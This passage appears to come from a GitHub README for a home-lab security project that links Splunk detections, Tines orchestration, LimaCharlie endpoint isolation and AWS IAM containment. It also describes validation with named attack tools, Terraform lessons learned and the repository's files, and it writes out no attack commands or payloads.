

## Response automation

### Endpoint containment

For Windows alerts, the response workflow can isolate the affected LimaCharlie sensor. Tines then queries the sensor again to verify that the requested state was reached rather than assuming the response succeeded.



LimaCharlie's sensor view independently showed the endpoint in the `Isolated` state, providing platform-side confirmation of the containment action.



An independent connectivity test confirmed that the isolated endpoint could no longer reach an external address.



### AWS identity containment

The AWS response workflow uses a human-in-the-loop selection page before applying containment. The tested sequence:

1. Select the affected IAM identity.
2. Apply a scoped deny policy to revoke active permissions.
3. Deactivate the associated access key.
4. Confirm the resulting IAM state.

The response page provides an explicit approval point so a detection cannot automatically disable an identity without an analyst decision.



The analyst selects the affected identity from the response workflow rather than manually copying a username between tools.

After approval, the workflow attaches an explicit deny policy directly to the selected user. Because an explicit deny overrides an allow, the identity loses effective access even if broader permissions remain attached through a group.



The associated access key is then deactivated and its resulting state is verified in IAM.



The screenshots retain the IAM username and access-key ID as investigation evidence. An access-key ID identifies a credential but cannot authenticate by itself; the corresponding secret access key was never included in the repository.

## Validation methodology

All activity occurred in a controlled home-lab environment using systems and cloud resources owned for testing.

- **AWS:** Pacu and purpose-built IAM activity generated API enumeration, access-denied events, user/key creation, and S3 transfer behavior.
- **Windows:** Sliver generated a controlled beacon, and an unsigned test DLL was executed with `rundll32.exe`.
- **Pipeline:** Each scenario was checked in Splunk, received in Tines, represented in GitHub, and—where applicable—followed through containment verification.
- **Infrastructure:** Terraform formatting, validation, planning, and post-apply convergence checks were used when changing managed detections.

## Engineering decisions and lessons learned

- Separating detections by telemetry source makes rule ownership and review substantially clearer.
- `for_each` keys are part of Terraform resource identity; `moved` blocks are necessary when renaming keys without recreating saved searches.
- Saved-search queries should target specific indexes. Broad searches such as `index=*` increase cost and can surface unrelated data-quality problems.
- Alert payloads should carry source metadata so orchestration can route AWS and Windows events differently.
- Response workflows should verify end state. A successful API request is not equivalent to confirmed containment.
- Lab thresholds prove functionality, but production detections require baselining, exception handling, severity mapping, and documented tuning.
- Screenshots intended for a public portfolio must be reviewed in context. Secret access keys, passwords, tokens, live webhook URLs, and other authenticators must never be published; non-secret identifiers may be retained when they materially strengthen the evidence and do not expose an active credential path.

## Outcome

The final lab demonstrates a working path from multi-source telemetry through detection and response:

```text
AWS CloudTrail / Windows Sysmon
              ↓
       Splunk detections
              ↓
     Better Webhook → Tines
              ↓
      GitHub investigation
              ↓
LimaCharlie isolation / AWS identity containment
              ↓
       Independent verification
```

The key outcome is a repeatable engineering workflow: detections are version-controlled, deployed consistently, tested against known behavior, enriched with investigation context, and connected to measurable response actions.

## Repository contents

- [`detections_aws_cloudtrail.tf`](detections_aws_cloudtrail.tf) — AWS CloudTrail rules
- [`detections_windows_sysmon.tf`](detections_windows_sysmon.tf) — Windows Sysmon rules
- [`detections_linux.tf`](detections_linux.tf) — reserved collection for future Linux rules
- [`detections.tf`](detections.tf) — shared Splunk saved-search and webhook configuration
- [`main.tf`](main.tf) — Terraform provider and input variables

